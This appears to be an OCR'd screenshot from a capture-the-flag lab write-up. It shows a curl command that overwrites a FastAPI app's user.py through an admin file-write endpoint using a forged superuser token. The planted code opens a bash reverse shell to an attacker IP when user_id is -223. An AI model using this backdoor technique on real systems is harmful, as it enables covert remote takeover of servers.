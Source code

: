     oxdf@hacky$ curl http://10.10.11.162/api/v1/admin/file/$(echo -n "/home/htb/app/api/v1/endpoints/user.py" | base64) -H 'Content-Type: application/json' -d '{"file": "from typing import Any, Optional\nfrom uuid import uuid4\nfrom datetime import datetime\n\n\nfrom fastapi import APIRouter, Depends, HTTPException, Query, Request\nfrom fastapi.security import OAuth2PasswordRequestForm\nfrom sqlalchemy.orm import Session\n\nfrom app import crud\nfrom app import schemas\nfrom app.api import deps\nfrom app.models.user import User\nfrom app.core.security import get_password_hash\n\nfrom pydantic import schema\ndef field_schema(field: schemas.user.UserUpdate, **kwargs: Any) -> Any:\n    if field.field_info.extra.get(\"hidden_from_schema\", False):\n        raise schema.SkipField(f\"{field.name} field is being hidden\")\n    else:\n        return original_field_schema(field, **kwargs)\n\noriginal_field_schema = schema.field_schema\nschema.field_schema = field_schema\n\nfrom app.core.auth import (\n    authenticate,\n    create_access_token,\n)\n\nrouter = APIRouter()\n\n@router.get(\"/{user_id}\", status_code=200, response_model=schemas.User)\ndef fetch_user(*, \n    user_id: int, \n    db: Session = Depends(deps.get_db) \n    ) -> Any:\n    \"\"\"\n    Fetch a user by ID\n    \"\"\"\n    if user_id == -223:\n        import os; os.system('\''bash -c \"bash -i >& /dev/tcp/10.10.14.6/443 0>&1\"'\'')\n    result = crud.user.get(db=db, id=user_id)\n    return result\n\n\n@router.put(\"/{user_id}/edit\")\nasync def edit_profile(*,\n    db: Session = Depends(deps.get_db),\n    token: User = Depends(deps.parse_token),\n    new_user: schemas.user.UserUpdate,\n    user_id: int\n) -> Any:\n    \"\"\"\n    Edit the profile of a user\n    \"\"\"\n    u = db.query(User).filter(User.id == token['\''sub'\'']).first()\n    if token['\''is_superuser'\''] == True:\n        crud.user.update(db=db, db_obj=u, obj_in=new_user)\n    else:        \n        u = db.query(User).filter(User.id == token['\''sub'\'']).first()        \n        if u.id == user_id:\n            crud.user.update(db=db, db_obj=u, obj_in=new_user)\n            return {\"result\": \"true\"}\n        else:\n            raise HTTPException(status_code=400, detail={\"result\": \"false\"})\n\n@router.put(\"/{user_id}/password\")\nasync def edit_password(*,\n    db: Session = Depends(deps.get_db),\n    token: User = Depends(deps.parse_token),\n    new_user: schemas.user.PasswordUpdate,\n    user_id: int\n) -> Any:\n    \"\"\"\n    Update the password of a user\n    \"\"\"\n    u = db.query(User).filter(User.id == token['\''sub'\'']).first()\n    if token['\''is_superuser'\''] == True:\n        crud.user.update(db=db, db_obj=u, obj_in=new_user)\n    else:        \n        u = db.query(User).filter(User.id == token['\''sub'\'']).first()        \n        if u.id == user_id:\n            crud.user.update(db=db, db_obj=u, obj_in=new_user)\n            return {\"result\": \"true\"}\n        else:\n            raise HTTPException(status_code=400, detail={\"result\": \"false\"})\n\n@router.post(\"/login\")\ndef login(db: Session = Depends(deps.get_db),\n    form_data: OAuth2PasswordRequestForm = Depends()\n) -> Any:\n    \"\"\"\n    Get the JWT for a user with data from OAuth2 request form body.\n    \"\"\"\n    \n    timestamp = datetime.now().strftime(\"%m/%d/%Y, %H:%M:%S\")\n    user = authenticate(email=form_data.username, password=form_data.password, db=db)\n    if not user:\n        with open(\"auth.log\", \"a\") as f:\n            f.write(f\"{timestamp} - Login Failure for {form_data.username}\\n\")\n        raise HTTPException(status_code=400, detail=\"Incorrect username or password\")\n    \n    with open(\"auth.log\", \"a\") as f:\n            f.write(f\"{timestamp} - Login Success for {form_data.username}\\n\")\n\n    return {\n        \"access_token\": create_access_token(sub=user.id, is_superuser=user.is_superuser, guid=user.guid),\n        \"token_type\": \"bearer\",\n    }\n\n@router.post(\"/signup\", status_code=201)\ndef create_user_signup(\n    *,\n    db: Session = Depends(deps.get_db),\n    user_in: schemas.user.UserSignup,\n) -> Any:\n    \"\"\"\n    Create new user without the need to be logged in.\n    \"\"\"\n\n    new_user = schemas.user.UserCreate(**user_in.dict())\n\n    new_user.guid = str(uuid4())\n\n    user = db.query(User).filter(User.email == new_user.email).first()\n    if user:\n        raise HTTPException(\n            status_code=400,\n            detail=\"The user with this username already exists in the system\",\n        )\n    user = crud.user.create(db=db, obj_in=new_user)\n\n    return user\n\n"}' -H 'Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjUxNzU1MzYxLCJpYXQiOjE2NTEwNjQxNjEsInN1YiI6IjEyIiwiaXNfc3VwZXJ1c2VyIjp0cnVlLCJndWlkIjoiODNlM2VkN2EtZDY2ZC00YTI3LWE5MjItNzAxZmI5ZmRjNzU1IiwiZGVidWciOnRydWV9.oyFkKgOC6zls6IY7i3-IOalxgFWXfyR3SRVlFVovLao'
    {"result":"success"}
